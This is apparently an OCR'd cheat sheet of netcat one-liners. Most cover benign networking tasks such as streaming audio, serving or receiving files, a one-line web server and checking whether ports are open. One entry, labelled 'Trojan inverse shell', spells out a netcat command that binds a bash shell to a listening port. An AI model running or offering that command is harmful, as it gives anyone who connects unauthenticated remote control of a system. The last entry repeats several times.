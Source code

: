 # nc

##### mp3 streaming

   nc  -l -p 2000 < song.mp3

##### netcat - receive tar archive remotely

   nc  -l $PORT | pv -b > archive.tar.bz2

##### One command line web server on port 80 using nc (netcat)

   nc  -kl 5432 -c 'echo -e "HTTP/1.1 200 OK\r\n$(date)\r\n\r\n";echo "<p>How are you today?</p>"'

##### determine if tcp port is open

   nc  <ip> <port> -v

##### Sharing a file through http 80 port:

   nc  -w 5 -v -l -p 80 < file.ext

##### Stream and copy a video from lan

   nc  HOST PORT | tee movie.mp4 | mplayer -

##### Trojan inverse shell

   nc  -l -p 2000 -e /bin/bash

##### determine if tcp port is open

   nc  -zw2 www.example.com 80 && echo open

##### Complete TCP Handshake on a given host-port

   nc  -zvw 1 host port

##### Sharing file through http 80 port

   nc  -v -l 80 < file.ext

##### Sharing file through http 80 port

   nc  -v -l 80 < file.ext

##### Sharing file through http 80 port

   nc  -v -l 80 < file.ext

##### Sharing file through http 80 port

   nc  -v -l 80 < file.ext

##### Sharing file through http 80 port

   nc  -v -l 80 < file.ext
